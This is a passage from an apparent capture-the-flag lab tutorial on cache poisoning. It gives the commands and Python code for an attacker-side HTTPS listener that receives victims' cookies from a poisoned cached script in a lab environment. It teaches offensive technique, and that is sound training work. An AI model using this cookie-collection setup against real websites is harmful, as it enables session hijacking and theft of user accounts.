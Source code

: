 AttackBox

```shell-session
user@attackbox$ curl -kv https://10.10.21.78:8100/static/text.js
```

**Note:**Â Don't use your actual browser (Firefox, Chrome, Safari, etc.) to check if the attack worked. Modern browsers also have local caching, which may alter what you get from a URL, as it may be taken directly from your local cache instead of being requested to theÂ proxy/web server.

Receiving the Flag

At this point, if the victim user navigates toÂ `/`, their cookies will be sent to our AttackBox on port 8002 via https. We need to set up a simple web server that implements https to be able to read the received cookies. There are many ways to set up such a server, we will use python to do so. Before running the https web server we will need to create an SSL certificate and key with the following command:

AttackBox

```shell-session
user@attackbox$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -sha256 -days 3650 -nodes -subj "/C=XX/ST=StateName/L=CityName/O=CompanyName/OU=CompanySectionName/CN=CommonNameOrHostname"
```

Next, we'll create a file namedÂ `https.py`Â with the code responsible of running the https web server. The code is straightforward and let's you specify the port to use, which isÂ `8002`Â in our case. The code also points to the SSL certificate and we previously generated. The code expects both of those files to be in the same directory as the python script:

```python
from http.server import HTTPServer, BaseHTTPRequestHandler 
import ssl
httpd = HTTPServer(('0.0.0.0', 8002), BaseHTTPRequestHandler)
httpd.socket = ssl.wrap_socket(
    httpd.socket,
    keyfile="key.pem",
    certfile='cert.pem',
    server_side=True)
httpd.serve_forever()
```

Once our script is ready, we can run it with the following command. You won't get any output initially, but as soon as the victim navigates to your webserver, logs will start to appear:

AttackBox

```shell-session
user@attackbox$ python3 https.py
```

The victim should visitÂ `/`Â every 20 seconds, so you should get the flag quickly. If for some reason you aren't receiving it, remember theÂ proxy's cache is set to last for 30 seconds only, so you may need to poison the cache again.

# h2c Smuggling
---
